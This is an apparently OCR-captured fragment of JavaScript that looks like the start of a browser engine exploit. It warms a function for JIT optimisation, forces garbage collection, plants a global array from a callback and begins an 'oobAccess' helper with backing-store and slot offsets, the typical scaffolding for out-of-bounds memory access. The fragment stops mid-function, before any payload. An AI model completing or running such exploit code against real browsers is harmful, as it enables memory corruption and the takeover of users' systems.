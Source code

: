     
    function print(data) {
    }
    
    
    
    
    var not_optimised_out = 0;
    var target_function = (function (value) {
        if (value == 0xdecaf0) {
            not_optimised_out += 1;
        }
        not_optimised_out += 1;
        not_optimised_out |= 0xff;
        not_optimised_out *= 12;
    });
    
    
    for (var i = 0; i < 0x10000; ++i) {
        target_function(i);
    }
    
    
    
    
    var g_array;
    var tDerivedNCount = 17 * 87481 - 8;
    var tDerivedNDepth = 19 * 19;
    
    
    function cb(flag) {
        if (flag == true) {
            return;
        }
        g_array = new Array(0);
        g_array[0] = 0x1dbabe * 2;
        return 'c01db33f';
    }
    
    
    function gc() {
        for (var i = 0; i < 0x10000; ++i) {
            new String();
        }
    }
    
    
    function oobAccess() {
        var this_ = this;
        this.buffer = null;
        this.buffer_view = null;
    
    
        this.page_buffer = null;
        this.page_view = null;
    
    
        this.prevent_opt = [];
    
    
        var kSlotOffset = 0x1f;
        var kBackingStoreOffset = 0xf;
    